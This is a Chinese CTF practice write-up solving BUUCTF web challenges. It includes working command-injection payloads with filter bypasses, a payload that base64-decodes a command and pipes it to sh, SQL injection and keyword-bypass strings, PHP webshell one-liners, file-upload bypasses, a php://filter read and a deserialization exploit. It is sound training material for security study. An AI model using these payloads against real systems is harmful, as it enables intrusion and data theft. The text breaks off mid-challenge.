






BUUCTF 刷题笔记——Web 1
BUUCTF 刷题笔记——Web 1
[ACTF2020 新生赛]Exec
启动靶机之后，一个简单的 Ping 页面，输入任意 ip 值即可让服务器去 Ping 对应 ip，图示输入数字序列也可正常执行，因此大概率是没有过滤的命令行操作，可以直接识别数字化 ip。
验证是否为命令注入，以分号分隔，这样会依次执行命令，后接 ls 命令，若回显目录则此处存在命令注入。结果如图，回显文件名，注入点存在。
接下来开始寻找 flag 即可，一般来说 flag 都在根目录，因此直接使用 ls /查看根目录。发现目标，使用 cat 命令打开即夺旗成功。
[强网杯 2019]随便注
打开靶机，有一个输入框，输入 1 或 2 会回显不同的内容，在地址栏可以看到数据通过 GET 方式上传。
在数据后添加单引号发现浏览器回显报错，因此存在 SQL 注入，加入注释符可进一步确认注入点为单引号闭合的字符型注入。
使用 order by 语句判断所查询的列数，到 3 开始报错，因此 SQL 语句共查询 2 列数据，基本可以确定数据分别为此前正常查询时输出的序号与字符串。
照流程对回显位作基本判断，发现报错了，源码将如下这些 SQL 的关键字均进行了过滤。所幸并没有对 show 进行过滤，因此堆叠注入还是可以用的。
分号之后使用 show 语句查询表名，一般情况下 flag 会在当前数据库中，因此这里直接查询表。查询出一共有两个表，分别为 words 与 1919810931114514，那 flag 大概率就在这个名字奇怪的表中了。
继续查询该表中的字段，注意由于字段名为数字序列，所以需要加上反引号包裹。在结果中可以看到，flag 就在这，夺旗只差一步。
由于 select 惨遭过滤，因此数据的查询就需要借助其他力量了：MySQL 中的 handler 命令同样可以用于查询数据内容。直接使用该命令打开 1919810931114514 表并读取第一行数据即可，这里给出 payload：
1
?inject=0';handler `1919810931114514` open;handler `1919810931114514` read first--+
[SUCTF 2019]EasySQL
启动靶机，与前一关类似，直接就是一个输入框，标题透露依然是 SQL 注入。直接加上注释发现并无影响，因此为数字型注入。输入几个数据发现直接输入非零数值都会返回 1，输入 0 则无回显。
有零和非零值的区别可以推测存在逻辑关系的判断，在注释符都不起作用的情况下，源码中的 SQL 语句就有可能是以下两种：
1
2select [注入数据] or [字段] from [表名]
select [字段] from [表名] where [定值] and [注入数据]上述两种具体为哪一种其实也可以判断，直接输入数字后加注释符，若是第一种，则浏览器会回显我们输入的数据，而若是第二种，则回显的数据始终不变。如下图返回了我们输入的数值，因此可以确定使用的查询语句为第一种。
那就可以注入 *,0，其中 0 负责控制逻辑部分，是否为 0 看心情，主要通过 * 完成对当前表中所有数据的查询，结果，正好 flag 就这么跑出来了。
所以该表只有一个字段，字段中也仅有一个数据，就是 flag。由此也可以判断所使用的 SQL 语句如下，[flag] 代表 flag 所在的表或字段。
1
select [注入数据] or [flag] from [flag]
值得注意的是，对于逻辑运算符，使用 || 基本可以完全替代 or，因此上文将其认定为 or 并不严谨，虽然这并不影响我们解题，但多了解区别总是好的。通过堆叠注入的方式将 MySQL 中的 sql_mode 变量设为 PIPES_AS_CONCAT，这样就可以将 || 解析为连接字符 ,，然后执行注入查询若结果不变说明使用的是 or 运算符，若再次爆出 flag，那就很有意思了，这就是第二种解法了！事实证明，确实是 ||：

[GXYCTF2019]Ping Ping Ping
打开靶机，提示通过 GET 方法传送 ip 地址用于执行 Ping，与之前关卡类似，直接尝试注入命令 ls，浏览器回显两个文件，因此存在命令注入，同时 flag 就在当前目录下的 falg.php 文件中。
那么就使用 cat 命令打开该文件即可，不出意外的话不会出意外，但是出意外了。文件打开失败，还被骂了：
根据提示，是空格被过滤了，关于空格的绕过那就有很多方法了，可以使用 <、<>、字节码形式 \x20、全局变量 ${IFS} 等代替空格，但是，实测竟然全部失败了。通过各种测试发现上述字符都被过滤了，其中全局变量 ${IFS} 是花括号被过滤，而 IFS 并没有被过滤，因此还可以使用 $IFS$1 来代替空格，其中 $1 代表接收的第一个参数，没传参值就是空，
不是空格而是空，NULL 。在这里的作用是防止 IFS 与后方字符相连造成无法识别，数值使用 1~9 均可。拼接上述绕过字符后回车，发现空格被成功绕过了，但是又被骂了，因为 flag 被过滤了。尝试在 flag 中继续插入 $1 等无值参数以绕过，发现依然会被认出是 flag，也就是说只要 f、l、a、g 依次出现就会被过滤。那就传个有值的参数来绕过，在打开 flag 之前先定义变量 b 并赋值为 ag ，在执行 cat 命令时再将参数传入就可以完成拼接，payload 如下：
1
?ip=1;b=ag;cat$IFS$1fl$b.php
值得注意的是，变量后不可连接字母或数字，如 fl%bg.php 则会被解析为变量 bg。实测上述 payload 成功打开 flag，由于是 php 文件，因此需要在调试界面查看：
当然，据此也可推测源代码中用于过滤 flag 所使用的正则表达式应该如下：
1
.*f.*l.*a.*g.*
此外，本题还可以使用 base64 加密传入再解密的形式解题，payload 如下：
1
?ip=1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
蛮有意思的解法，管道符 | 会将前一个命令的输出作为后一个程序的输入，所以将我们要执行的命令解密后放进 sh 执行就完成任务了。
还有一个优雅的解法，利用反引号 ` 实现内联执行，即被反引号包裹的数据代表了数据执行后的结果，payload 如下：
1
?ip=1;cat$IFS$1`ls`
因此程序会打开 ls 命令查找出来的 flag.php 与 index.php 两个文件。
[极客大挑战 2019]Secret File
打开靶机，问你是否想知道蒋璐源的秘密，除此之外貌似并无可操作之处，打开调试界面发现有一个链接指向网页当前目录下的 Archive_room.php 文件：
虽然直接在地址栏访问该文件即可打开下一个页面，但是毕竟这里用的是跳转链接，单击才是正确打开方式，至于链接藏在页面的哪里，底部 logo 上方就是，鼠标点击滑过即可看见。
打开页面后，提示秘密在链接中，而这个链接则指向网页目录的另一个文件 action.php。
但是点击这个链接后网页又会打开 end.php 提示查阅结束，也就是说打开 action.php 会自动跳转到 end.php，要想看到里面的内容就只能在跳转前查看。
那就要抓包了，Brup 抓到的访问 action.php 时返回的数据如下，提示访问另一个文件。
1
2
3
4
5<html>
<!--
secr3t.php
-->
</html>那就老老实实打开这个文件看看，浏览器回显了一段代码并且提示 flag 就在 flag.php 文件中。可以看出这里存在一个文件包含的程序，文件的路径由我们通过 GET 方法传入，且过滤了含有 ../、tp、input、data 字符的路径。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15<html>
<title>secret</title>
<meta charset="UTF-8">
<?php
highlight_file(__FILE__);
error_reporting(0);
$file=$_GET['file'];
if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
echo "Oh no!";
exit();
}
include($file);
//flag放在了flag.php里
?>
</html>直接使用浏览器访问 flag.php，提示我们已经找到，但是看不到。因此可以认为 flag 存在与后端文件 flag.php 中，有必要利用文件包含来读取后端的该文件。
利用文件包含漏洞读取文件一般使用伪协议 php://filter，该协议会读取文件并进行筛选与过滤，当然我们只需要他读取即可。由于读取源码文件时会执行源码，所以应对读取的数据进行 base64 加密，加密后的代码便无法被执行。payload 如下：
1
?file=php://filter/convert.base64-encode/resource=flag.php
其中，convert.base64-encode 负责将数据流加密，resource 则指定待读取的数据流。执行之后会在浏览器中回显一段 base64 加密的字符串，即后端 flag.php 文件内容的密文。
将上述密文进行 base64 解密即可看到全文，不仅有 flag，还有蒋璐源的秘密，
这是梦想吧 。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>FLAG</title>
</head>
<body style="background-color:black;"><br><br><br><br><br><br>
<h1 style="font-family:verdana;color:red;text-align:center;">啊哈！你找到我了！可是你看不到我QAQ~~~</h1><br><br><br>
<p style="font-family:arial;color:red;font-size:20px;text-align:center;">
<?php
echo "我就在这里";
$flag = 'flag{6c263e3e-5858-44f4-99ee-af3782ff7b38}';
$secret = 'jiAng_Luyuan_w4nts_a_g1rIfri3nd'
?>
</p>
</body>
</html>
[极客大挑战 2019]LoveSQL
打开靶机，这个界面还是很好看的，提示输入账号及密码。在账户一栏加上转义字符 \ 做个简单测试，发现数据以 GET 方式发出，且存在字符型注入漏洞，注入点的闭合符号为单引号 '。
可以构造万能密码 1' or 1=1#，密码随便输入，发现登录成功，显示了管理员的账户与密码，可惜并没有用，因为账号密码再登录之后依然是这个界面，这样拿不到 flag 的啊！
所以还是要从注入点慢慢抠数据出来，首先使用 ' order by 1# 语句判断查询列数（实测本题对 -- 注释符作了过滤），当然在 URL 中需使用 # 的编码形式 %23，payload 如下。
1
?username=1' order by 3%23&password=1
此处并未使用正确账号密码因此小于等于列数时会提示账户密码错误，而大于列数时则提示语法错误，如图可知查询列数为三列。
接下来判断回显位，payload 如下：
1
?username=1' union select 1,2,3%23&password=1
浏览器在账号处回显了数字 2，在密码处回显了数字 3，因此之后查询的数据放后两位即可。

首先查询当前数据库名，使用 database() 函数即可，payload 如下：
1
?username=1' union select 1,database(),3%23&password=1
得到当前数据库名称为：geek。
然后就是爆表名，借助老朋友 information_schema 库中的数据，payload 如下：
1
?username=1' union select 1,group_concat(table_name separator " - "),3 from information_schema.tables where table_schema="geek"%23&password=1
为方便查看，这里使用 group_concat() 函数将所查询的各行数据整合并指定分隔符，查询结果如下图，可知当前数据库中有 geekuser 与 l0ve1ysq1 两张表。
接下来就是查表中的字段名了，flag 大概率被放在 l0ve1ysq1 表中，因此直接查他。payload 如下：
1
?username=1' union select 1,group_concat(column_name separator " - "),3 from information_schema.columns where table_name="l0ve1ysq1"%23&password=1
查询结果如下图，该表中共有 id、username、password 三个字段。
最后一步，开始爆数据直接对 l0ve1ysq1 表查即可，payload 如下：
1
?username=1' union select 1,group_concat(concat_ws(" - ",id,username,password) separator "<br>"),3 from l0ve1ysq1%23&password=1
为便于观察，这里添加 concat_ws() 函数将同一行数据整合，并指定分隔符。查询结果如图，末尾即为爆出来的 flag。
[极客大挑战 2019]Knife
打开靶机，提示菜刀，并且列出了经典一句话木马的关键部分 eval($_POST[Syc]);，也就是说该木马的连接密码为 Syc。
尝试性的在蚁剑连接一下，直接连接成功了。嗯，所以直接去根目录寻找 flad 即可。
不过，看到 一位师傅的解法 很有意思，尽量回避对工具的依靠。一句话木马的本质就是利用 eval() 函数将 POST 方法传入的参数作为代码执行，那直接向 Syc 变量传递我们需要的指令，那就不需要工具就能拿到 flag 了。这里使用 scandir() 函数对根目录进行扫描，使用 file_get_contents() 函数获取指定文件内容，并使用 var_dump() 输出前述两个函数返回的结果。因此只需通过 POST 方法分别传入以下 payload 即可在调试界面获得 flag，
之所以要在调试界面查看是因为字体默认为黑色，而本站背景就是黑色，因此看不出来 。1
2
3
4Syc=var_dump(scandir('/'));
// 列出根目录，发现 flag
Syc=var_dump(file_get_contents('/flag'));
// 打开 flag 文件
[极客大挑战 2019]Http
打开靶机，是三叶草的介绍网页，还得是三叶草啊。
网页是挺好看，就是找半天看不到任何提示，也没个明确下手点，最后在源码的一个角落找到了跳转至其他文件的链接，属实有点为难眼瞎的小白了。
直接访问找到的这个文件，页面提示不是从 https://Sycsecret.buuoj.cn 跳转过来的，也就是说如果是从这个地址过来应该就能看到不一样的界面。
修改来源好办啊，抓包后将网页的请求头的 Referer 字段修改为指定地址就好了，由于我们不是跳转的，所以这个字段需要自己添加。Burp 改好发包之后，网页返回如下，提示使用 Syclover 浏览器。
浏览器也好办，将请求头的 User-Agent 字段修改为 Syclover 即可，问题不大，再改一遍提交就是了，结果又来事儿了，显示只能通过本地访问。
一次性说完吧求求了。 这倒也好解决，继续修改请求头，添加 x-forwarded-for 字段并赋值为本地即可，该字段存放发起请求的真实 ip，主要用于代理、负载均衡等环境。所以改为本地就等于我们是从本地访问的，完美，再一次发包。终于这次不再啰嗦，直接交出了 flag。
完整的伪造后请求头如下，奇怪的是，X-Forwarded-For 字段置于尾部会造成 400 错误。应该是被认出来是假的了吧。
1
2
3
4
5
6
7
8
9
10
11GET /Secret.php
Host: node4.buuoj.cn:26361
X-Forwarded-For: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Syclover
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Referer: https://Sycsecret.buuoj.cn
[极客大挑战 2019]Upload
打开靶机，提示上传图片，因此应该是一个文件上传漏洞。那先老老实实上传一个图片，发现竟然上传失败，正规图片也过滤？
换用一个小点的图片便上传成功了，因此靶机对文件大小存在限制，当然这不影响解题，毕竟用的都是一句话木马。
上传含有一句话木马的 PHP 文件，浏览器回显 Not image，区区小文件依然无法上传，显然靶机对文件进行了过滤。禁用 js 后依旧失败，因此为后端过滤。
- Burp 抓包后修改 MIME 类型为 image/jpeg，发送后提示禁止 php 文件，因此靶机后端存在对后缀名的过滤。
值得注意的是文件头处的 Content-Type 字段值表示传送二进制文件，boundary 则是包裹数据的随机序列，这并不是该被修改的地方。
将后缀名更改为 PhP 尝试大小写绕过无效，于是继续尝试 php3、php5、pht、phtml等后缀别名，仅有 phtml 绕过成功，不过这次提示过滤了字符 <?，也就是正常的 PHP 代码都被过滤了。
不过一句话木马形式多样，换一个就行了，可以将代码置于 script 标签中，并设置语言属性为 php 即可：
1
<script language="php">@eval($_POST['h-t-m'])</script>
将上述木马文件再次上传，通过了 <? 字符过滤，迎来了新的问题：
他识别出来并非图片文件，因此程序很可能还对文件头进行了检验，而 jpg 图片文件头三字节的字节码为 FFD8FF，因此如图所示在文件开头预留位置抓包修改字节码即可：
发包之后浏览器也返回了好消息，上传成功！
可惜并没有提供文件所上传的位置，因此怕是只能猜，一般都会放在 upload 目录下，所幸本题就是如此。然后直接使用蚁剑连接即可，flag 就在根目录。
[ACTF2020 新生赛]Upload
打开靶机，一个灯泡，靠近就会发现文件上传点。
那就不客气了直接上传 php 一句话木马，弹出了提示窗口，显然前端验证了后缀名。
前端好办，直接把 js 禁用就行了，再次上传，浏览器没有任何反应？调试发现回显在左上角，提示文件被禁止，因此后端还有过滤。
又到了猜后端过滤方式的时候了，方便起见，还是从后缀名下手。经过尝试，直接大小写即可绕过，且程序会对文件进行重命名，目录也比较特别，要是没有回显怕是不太好解：

既然目录及文件名都给出了，直接蚁剑连接即可。
此外，网上的 WP 大多使用 php 别名绕过，实测 php3、php4、php5、pht 后缀名均无效，不过 phtml、phps 依然有效。
[极客大挑战 2019]BabySQL
打开靶机，经典极客大挑战的界面，在账户密码处输入测试字符，含有单引号，结果浏览器回显了报错。这就好办了，有报错信息就可以调试，同时确定存在注入点且为单引号闭合的字符型注入，此外数据通过 GOT 方法传送。
于是直接测试万能密码 1' or 1=1#，结果依然报错。
这个报错是十分异常的，造成这个问题基本是 1=1 前文出现了问题，应该是 or 被过滤掉了，使用 || 符号替代 or 发现登录成功，确定注入点存在关键词过滤。
简单测试一下后台的过滤逻辑，在单引号前放置关键词 select 查看报错，发现 select 被过滤，而且是直接删除，尝试双写绕过，成功！
此外，经过测试 or、select、union、and、order、by、from 等关键字均被过滤，其中 order 是过滤 or 附赠的，当然全都可以通过双写绕过。
接下来就可以安心注入了，首先判断查询列数，构造 payload 如下，确定查询列数为三列：
1
?username=1&password=1' oorr 1=1 oorrder bbyy 4--+
然后确定回显位，构造 payload 如下，确定二、三位回显，分别对应用户名与密码：
1
?username=1&password=1' ununionion seselectlect 1,2,3--+
然后顺手查个数据库名，构造 payload 如下，得到数据库名 geek：
1
?username=1&password=1' ununionion seselectlect 1,2,database()--+
然后就是查表，虽然双写绕过挺有意思的，但是 or 的出现频率有点高了，连 information 和笔者用于美观使用的 separator 都需要绕一下，构造 payload 如下，获得两张表 b4bsql 和 geekuser。
1
?username=1&password=1' ununionion seselectlect 1,2,group_concat(table_name separatoorr " - ") frfromom infoorrmation_schema.tables whwhereere table_schema="geek"--+
然后就是查表 b4bsql 中字段，构造 payload 如下，获取三个表名 id、username、password：
1
?username=1&password=1' ununionion seselectlect 1,2,group_concat(column_name separatoorr " - ") frfromom infoorrmation_schema.columns whwhereere table_name="b4bsql"--+
最后就是查询数据，注意这次 password 也需要绕过一下，构造 payload 如下，最后一行即 flag。
1
?username=1&password=1' ununionion seselectlect 1,2,group_concat(concat_ws(" - ",id,username,passwoorrd) separatoorr "<br>") frfromom b4bsql--+
本题与 [[极客大挑战 2019]LoveSQL](#[极客大挑战 2019]LoveSQL) 基本一致，故 payload 基本直接取自那题，本关只需注意绕过即可。当然这两关都可以直接查询 ctf 库中的 Flag 表中 flag 字段的数据，直接就是 flag，各名称来源与前文同理，最终查询 payload 如下：
1
?username=1&password=1' ununionion seselectlect 1,2,flag frfromom ctf.Flag--+
[极客大挑战 2019]PHP
打开靶机，一个非常不错的交互界面，提示网站存在备份文件，除此之外貌似没有任何有效信息。
既然如此就只能扫描一下网站目录中的备份文件了，这里使用 dirsearch 工具进行扫描。由于 BUU 平台的访问频率限制，直接扫描就会返回 429 状态码，所以可能需要添加延时，输入命令如下：
1
./dirsearch.py -u [靶机地址] --delay=5
稍等好一会儿即可看到结果：目录中存在 www.zip 文件。
实测其实直接扫也有一定几率能扫出来，毕竟被限制一小段时间后又有一小段时间可以正常访问，所以只要正好 ww.zip 出现时适逢窗口期即可。不过还是不建议这么干，请友善对待此类供所有人免费使用的设备。
知道备份文件后直接访问并下载下来即可，压缩包中有如下文件：
有个让人在意的 flag.php 文件，莫非里面就是 flag，然而事实上其内容如下，被耍了就是说。不过，靶机中的该文件上应该就存有真正的 flag。
1
2
3
$flag = 'Syc{dog_dog_dog_dog}';所以还是老老实实审计一下代码，除去两个前端文件还有两个文件，先从 index.php 入手，该文件主要代码如下，程序包含了 class.php 文件，然后通过 GET 方式接收了变量 select 并将其反序列化。
1
2
3
4
5
include 'class.php';
$select = $_GET['select'];
$res=unserialize(@$select);那么再看看 class.php 文件，这边就是大段的 PHP 代码了。代码主体定义了一个 Name 类，类中含有两个私有变量 username 和 password，也就是用户名和密码。其构造函数 __construct() 会接收参数并赋值给私有变量，而对象被反序列化前自动执行的 __wakeup() 函数则会将私有变量 username 赋值为 guest。值得注意的是该类的析构函数 __destruct() 会对密码进行检验，若值不等于 100 便会输出提示信息并终止程序，否则继续判断用户名是否为 admin，而用户名等于时便会输出 flag，不然则还是输出提示信息。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
include 'flag.php';
error_reporting(0);
class Name{
private $username = 'nonono';
private $password = 'yesyes';
public function __construct($username,$password){
$this->username = $username;
$this->password = $password;
}
function __wakeup(){
$this->username = 'guest';
}
function __destruct(){
if ($this->password != 100) {
echo "</br>NO!!!hacker!!!</br>";
echo "You name is: ";
echo $this->username;echo "</br>";
echo "You password is: ";
echo $this->password;echo "</br>";
die();
}
if ($this->username === 'admin') {
global $flag;
echo $flag;
}else{
echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
die();
}
}
}因此，我们只需构造并传递一个 Name 类的对象，并且将其私有变量 username 与 password 分别赋值为 admin 与 100 即可。但是存在的问题是，传递对象时必然将其序列化，再经过程序反序列化才可完成，而反序列化之前则会自动调用 __wakeup() 函数，该函数又会将 username 赋值为 guest。因此，要想传递指定对象获取 flag，就得绕过 __wakeup() 函数。
先考虑序列化对象的问题，其实可以直接在本地构造并使用 serialize() 函数进行序列化的问题，不过此类较为简单的序列化还是可以用手的。指定序列化字符串如下：
1
O:4:"Name":2:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
其中 O 代表类，4 为其后类名 Name 的长度，而类名之后的数字 2 则是对象中的属性个数，这里代表两个变量，在此之后则是花括号包裹的属性信息。不同字段的信息使用分号分隔，花括号内按照
属性1名;属性1值;属性2名;属性2值;...的顺序排列，其中 s 表示字符串，i 表示整形，类型后接的就是数据长度了。值得注意的是，由于变量都是私有的，因此变量名前需要带上用空字符包裹的类名，而空字符进行 URL 编码即 %00。得到序列化对象后就要考虑绕过 __wakeup() 函数的事情了，这里利用的是 PHP 中的漏洞 CVE-2016-7124，如果序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过 __wakeup() 函数的执行，因此只需将上述序列化字符串中属性个数修改为更大的值即可绕过：
1
O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
最后将上述序列化字符串通过 GET 方式传给 select 即可获得 flag。
[ACTF2020 新生赛]BackupFile
打开靶机，仅有一句 Try to find out source file!，除此之外没有任何其他内容，包括源码。不过，标题提示备份文件，所以后台应该存在备份文件。
那么依然扫描一下网站目录，方法与上一题一致，使用如下命令调用 dirsearch 工具扫描即可。
1
./dirsearch.py -u [靶机地址] --delay=5
不得不说工具就是强，扫出这么些东西，其中 inedx.php.bak 便是所需的备份文件。
下载文件后直接去掉后缀 .bak 即为正规 PHP 文件，文件中包含如下代码：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
include_once "flag.php";
if(isset($_GET['key'])) {
$key = $_GET['key'];
if(!is_numeric($key)) {
exit("Just num!");
}
$key = intval($key);
$str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
if($key == $str) {
echo $flag;
}
}
else {
echo "Try to find out source file!";
}程序通过 GET 方法获取变量 key，若变量不是数字或数字字符串则程序输出提示信息并退出，若是则获取其整形数值并与字符串 123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3 作比较，只要相同程序就会输出 flag。值得注意的是，最后与字符串的比较使用的是弱等于，即将两边转换为相同类型之后再比较，而上述字符串转换为整形之后值为 123。因此，直接传入 123 即可。
由上直接通过 GET 方法向变量 key 传递值 123，回车之后便是 flag。

[RoarCTF 2019]Easy Calc
打开靶机，页面为一个计算器，输入正常算式时可以返回正确的计算结果，但是若输入的并非算式，则会跳出弹窗提示。
弹窗提醒则前端必定含有相关代码，查看源码发现如下 js 代码且带有注释表示设置了 WAF 来确保安全。代码中 ajax 用于从服务器获取信息并更新在网页中（不用刷新网页），因此用户提交数据时就会将数据通过这里上传至服务器完成计算并返回相应信息。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18<!--I've set up WAF to ensure security.-->
<script>
$('#calc').submit(function(){
$.ajax({
url:"calc.php?num="+encodeURIComponent($("#content").val()),
type:'GET',
success:function(data){
$("#result").html(`<div class="alert alert-success">
<strong>答案:</strong>${data}
</div>`);
},
error:function(){
alert("这啥?算不来!");
}
})
return false;
})
</script>值得注意的是，用户数据最终通过 GET 方法传递给了网页目录中的 calc.php 文件，因此尝试直接访问该文件，发现直接回显出了源代码，当然这是因为作者设定好未接收到变量则回显代码，只能说感谢手下留情了。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
error_reporting(0);
if(!isset($_GET['num'])){
show_source(__FILE__);
// 未接收到变量则回显代码
}else{
$str = $_GET['num'];
$blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
foreach ($blacklist as $blackitem) {
if (preg_match('/' . $blackitem . '/m', $str)) {
die("what are you want to do?");
}
}
eval('echo '.$str.';');
}源码中设定了一列黑名单字符并使用正则表达式匹配，其中 /m 修饰符表示多行匹配，若匹配到则程序终止，未匹配到则送入 eval() 函数执行计算。
可以发现源码中的黑名单中并不包含普通字母数字等字符，但是实测单纯输入字母数字序列依然会返回错误。直接向 calc.php 文件传递参数会发现返回的是 403 Forbidden，也就是说现在是此前注释中所提示的服务器中开启的 WAF 在作祟。
不过，PHP 将字符串解析为变量名时会删除开头的空格，并将一些特殊字符替换为下划线，也就是自动解析为合法变量名。因此在传入数据时可以在变量名之前添加空格，这样 WAF 就会不认识该变量，但 PHP 却依然会将其解析为 num，此时便可绕过 WAF。如下图 WAF 不再拦截带有字母的序列：
所以现在就相当于控制 eval() 函数了，接下来可以利用 scandir('/') 对根目录进行扫描，不过由于单引号被正则匹配过滤了，因此需要使用 chr(47) 来通过 ASCII 码值转字符。但是，scandir() 函数返回的是数组，而自带的 echo 并不能直接输出数组，因此还需借由 var_dump()、var_export() 或 print_r() 函数来输出。输出结果有必要追求简洁好辩认，因此这里使用 print_r() 函数，构造 payload 如下：
1
? num=print_r(scandir(chr(47)))
